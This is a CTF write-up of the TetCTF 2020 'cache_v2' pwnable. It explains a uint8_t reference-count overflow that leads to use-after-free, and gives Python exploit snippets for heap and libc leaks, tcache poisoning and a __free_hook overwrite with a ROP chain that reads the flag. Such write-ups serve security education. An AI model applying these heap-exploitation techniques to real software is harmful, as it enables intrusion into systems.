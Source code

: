 # TetCTF 2020 - cache_v2
## Introduction
- **Given files:** `cache`, `cache.cpp`, `libc-2.31.so`, `ld-2.31.so`.
- **Description:** `Flag stored in /home/cache/flag`
- **Category:** Pwnable
- **Summary:** Another `C++` glibc 2.31 heap challenge that is the sequel to `cache_v1`. The source code is also given although the implementation of the system is different from `cache_v1`.

## TL;DR
1. Analyze the source code -> Found that there is a `uint8_t` integer overflow in `refCount`.
2. Create a large cache, duplicate it over and over to overflow `refCount`, then `erase` it -> `unique_ptr` will be deleted and the pointer it's managing will point to `tcache_perthread_struct` -> Can read and write (almost) anywhere on the heap with this.
3. Setup the heap perfectly to exploit.
4. Use OOB read to leak `heap` and `libc`.
5. Use OOB write to poison tcache -> overwrite `__free_hook` into ROP to workaround `seccomp` and read the flag.
   
## Analyzing the source code
This program is a cache management system implemented in C++, its functionalities is the same as `cache_v1`, with the addition of `Duplicate`:
- `Create` a cache with a unique name and (almost) arbitrary positive size (the upper bound is very high).
- `Read` data from a cache at an offset.
- `Write` data to a cache at an offset.
- `Erase` a cache.
- `Duplicate` a cache to another cache with different name, but similar content.

This time, there is no hashing to mess with. Also, the pointer to the content of each cache is now managed by C++ `unique_ptr`. In short, `unique_ptr` will manage a pointer inside itself, and uniquely own it. There is no way other smart pointers can refer to a pointer that a `unique_ptr` is managing.

When a cache is duplicated, the method `reference()` will be called to increase `refCount` by 1, and when it is erased, `release()` will be called to decrease `refCount` by 1. If `refCount` reaches 0, it means that the cache is no longer referred by any existing cache, therefore it will be deleted, along with its `unique_ptr`. There is a bound check that a cache can only be referenced upto `UINT8_MAX`, but here is the bug: the `refCount`'s data type itself is `uint8_t`, so it will never surpass that max, instead, it will `overflow` and go back to 0. Therefore, we can `duplicate` a cache 256 times to make `refCount` rolls back to 1, then `erase` it. Doing that leaves us with an erased cache that has a lot of duplicates referencing to it. This leads to a `use-after-free` bug upon accessing any of those duplicates.

## Erasing a cache with overflowed `refCount`
When we erase a cache, it's `unique_ptr` will also be erased. This structure is also stored on the heap, and the important part is that the pointer that it is managing is stored as the second `QWORD` of the struct. The `unique_ptr` struct is small enough that it will be inserted into `tcache` when it's free, and in `libc 2.31`, when a `tcache` is free, it's second `QWORD` will contain a so-called `key`, which is the pointer to `tcache_perthread_struct` at the start of the heap. Therefore, when we `.get()` from this freed `unique_ptr`, we actually have access to the pointer to that start of the heap. It all happens when we `erase` a large cache whose `refCount` is overflowed, and then we can read/write in a very large range from it. So effectively, we can read and write anywhere on the heap from that point.

## Setup the heap
Again, like `cache_v1`, we setup the heap perfectly for our exploitation, then overflow and erase a large cache:
```python
# Create a victim caches
create("victim1", 0x100)
write("victim1", 0, 8, "A"*8)
create("victim2", 0x100)
write("victim2", 0, 8, "B"*8)

# Create a large cache to duplicate over and over
create("orig", 0x18000)
write("orig", 0, 8, "A"*8)

# Duplicate orig 256 times
for i in range(256):
    #print(i)
    duplicate("orig", "dup_{}".format(i))

# Erase dup_0, orig's unique_ptr will now point at tcache_perthread_struct (top of heap)
erase("dup_0")
```

Notice that I created the `victim` caches first, because it will make them closer to the top, we don't want them to be far after those duplicated caches. The targeted cache size is also set to be very large (`0x18000`). Also, I deleted `dup_0` instead of `orig`, because `orig` is the only one that we can safely read and write from (it's not flagged as a duplicate).

## Leak heap and libc
Simply read a `heap` and a `libc` pointer on the heap, we don't even need to free a large chunk this time because the targeted chunk is already a large one and will be inserted to `unsorted bin`.
```python
# Leak heap
read("orig", 0x11ea8, 8)
heap = u64(r.recv(8)) - 0x11ed0
log.info("heap: {}".format(hex(heap)))

# Leak libc
read("orig", 0x12238, 8)
l.address = u64(r.recv(8)) - 0x1ebbe0
log.info("libc: {}".format(hex(l.address)))
```

## Tcache poisoning
Exactly the same as `cache_v1`: Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I now can overwrite `__free_hook` and also have all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write("orig", 0x120b0, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x2d190             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=RYhKUKzD6IQ}
```

## Appendix
The full exploit is `a.py`.